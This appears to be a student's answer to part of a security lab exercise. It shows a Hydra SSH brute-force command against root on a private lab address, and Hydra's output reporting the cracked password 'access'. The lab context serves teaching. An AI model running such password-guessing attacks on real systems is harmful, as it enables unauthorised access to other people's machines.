 \documentclass[a4paper]{article}
\begin{document}
c)\\
\begin{verbatim}
hydra -t 16 -l root -P cain.txt ssh://192.168.56.2:22
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2020-04-30 16:56:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 306706 login tries (l:1/p:306706), ~19170 tries per task
[DATA] attacking ssh://192.168.56.2:22/
[STATUS] 1324.00 tries/min, 1324 tries in 00:01h, 305415 to do in 03:51h, 16 active
[22][ssh] host: 192.168.56.2   login: root   password: access
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 14 final worker threads did not complete until end.
[ERROR] 14 targets did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (http://www.thc.org/thc-hydra) finished at 2020-04-30 16:58:21
\end{verbatim}
access
\end{document}
